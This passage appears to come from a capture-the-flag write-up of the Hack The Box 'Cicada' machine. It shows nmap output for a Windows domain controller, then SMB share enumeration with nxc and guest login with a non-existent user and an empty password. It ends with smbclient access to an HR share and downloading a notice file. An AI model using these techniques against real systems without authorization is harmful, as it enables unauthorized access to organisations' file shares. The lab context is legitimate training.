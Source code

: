 ```bash
|_http-title: Not Found
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-05-15T12:43:42
|_  start_date: N/A
|_clock-skew: 6h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 102.95 seconds
```

We have a lot of interesting ports open from which we can likely assume it’s a Windows domain controller.

Also, we can see `cicada.htb` it being mentioned many times, so let’s first add it to our hosts file.

```apache
sudo nano /etc/hosts
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1747288542325/6a7d38ec-c82d-446f-8c99-7b81d8762536.png align="center")

As SMB supports more guest authentication so let’s start with enumerating shares.

```apache
nxc smb 10.129.64.6 --shares
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1747288811971/a9eed3af-5008-4e62-b63a-5d02c74304a7.png align="center")

We get an error that the user session is deleted, so let’s specify a non-existing user with an empty password and see if guest authentication is allowed on it or not.

```apache
nxc smb 10.129.64.6 -u "dignitas" -p "" --shares
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1747289334709/7fd13d41-ca3a-4aca-a5b8-560fa77c8cf8.png align="center")

We have two new shares `DEV` and `HR` and we also have READ access on `HR` share.

```apache
smbclient -U 'dignitas' //10.129.64.6/HR
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1747289495536/7fd7c1f6-d62d-4ff3-ab32-b467aa9241b0.png align="center")

So, we have a Notice from HR file, let’s get that to our machine and see the contents of it.

```apache
mget *.txt
```
